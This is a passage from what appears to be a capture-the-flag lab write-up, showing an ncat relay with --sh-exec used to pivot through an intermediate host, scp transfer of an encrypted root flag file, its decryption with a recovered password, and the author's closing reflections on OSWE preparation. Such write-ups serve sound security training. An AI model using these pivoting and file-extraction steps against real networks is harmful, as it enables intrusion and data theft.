 Setup another listener, and scp the file over to the midpoint DNS:

```
dave@DNS:~$ /usr/bin/ncat -l 3334 --sh-exec "ncat 192.168.5.2 987 -p 4444"&
[2] 1734
dave@DNS:~$ scp -P 3334 dave@192.168.122.4:/home/dave/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                                                        100%  629     0.6KB/s   00:00    
[2]+  Done                    /usr/bin/ncat -l 3334 --sh-exec "ncat 192.168.5.2 987 -p 4444"
dave@DNS:~$ cat root.txt.gpg 
�
*XWŶ!�~��׈\s�WeW�c�.\▒VRj�▒)W|眚��H5��]��1R<I�q�=��z��ᔩO;F��7��▒����'p�?O�/�!3�e��*�X�mzTH
&�*��b��D�T�Y9j�GkS|)����,�%�4�4��ei�t_B؇ �G>�?5�t�3��4E������-�T��x��{^0��Pv�����,`���VFa���"����TÂN�>�b_a���eQ��羜Ɩ��O�l�o���D�d7�a(��^��ð
                                      ��/���p>?�▒'���l�z2��w�q����S`�<��|��ݬ�oR�b�)��7���Y1{P�<,�xKO���ԣ�#�y��'F�    #W�L1▒3<$>��#c"$!������+�kǋR������o����dpDv�
                                                            �믱�V�('���Ҁ>t�qI�ss�x�L���A3.rk��
                                                                                               6�,!i�Tg�b��J������fVO�|�_x
                     �|jL©��▒�0f"��dave@DNS:~$ 
dave@DNS:~$ 
```

And then, a little simpler, to the ubuntu:

```
dave@DNS:~$ exit
logout
Connection to 192.168.122.4 closed.
dave@ubuntu:~$ scp dave@192.168.122.4:/home/dave/root.txt.gpg .
dave@192.168.122.4's password: 
Permission denied, please try again.
dave@192.168.122.4's password: 
root.txt.gpg                                                        100%  629     0.6KB/s   00:00    
dave@ubuntu:~$ 
```

And finally, with the "itscominghome" password we got earlier:

```
dave@ubuntu:~$ gpg -d root.txt.gpg 

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
aa468340b91DEADBEEF31093d9bfe811
dave@ubuntu:~$ 
```

This was a very strange lab, and I found it incredibly difficult, especially for a medium level lab. There were multiple techniques which I had never used or seen before. However, this is likely because I am not as familiar with web, and have spent my time up until now focused on network pentesting (as I have my OSCP and OSEP). I went through this lab as part of my preparation for OSWE, and learned quite a bit.
